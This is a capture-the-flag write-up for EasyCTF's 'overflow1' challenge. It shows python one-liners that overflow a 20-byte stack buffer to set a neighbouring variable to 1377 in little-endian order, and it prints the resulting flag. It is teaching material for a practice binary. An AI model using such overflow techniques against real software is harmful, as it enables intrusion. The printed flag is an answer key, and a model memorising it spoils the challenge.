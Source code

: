 Description:
```
Can you overflow the stack? Try it at /problems/overflow1 on the EasyCTF shell server. The source is available at /problems/overflow1/overflow1.c, and the program you're trying to overflow is at /problems/overflow1/overflow1. Good luck!
```
Hint:
```
Read a little bit about the stack [here](https://www.exploit-db.com/docs/28475.pdf).
```
In the source file we can see that the buffer is 20 bytes long. After some trial and error we can see that if we overflow it by 8 bytes then the next ones are going to overwrite the ```x``` variable.
```
user6ad18@shell:/problems/overflow1$ python -c 'print "A"*29' | ./overflow1
65
```
"A" is just an arbitrary character used to fill the buffer. And 65 is its ASCII value. 1377 is equal to 539 in hexadecimal. We cannot insert is as one character though so it needs to be split. Because the value is stored in little-endian we also have to order it in right way.
Now we can run the modified version of our command:
```
user6ad18@shell:/problems/overflow1$ python -c 'print "A"*28 + chr(0x39) + chr(0x5)' | ./overflow1
Here's a flag: easyctf{i_wish_everything_were_th1s_34sy}
```
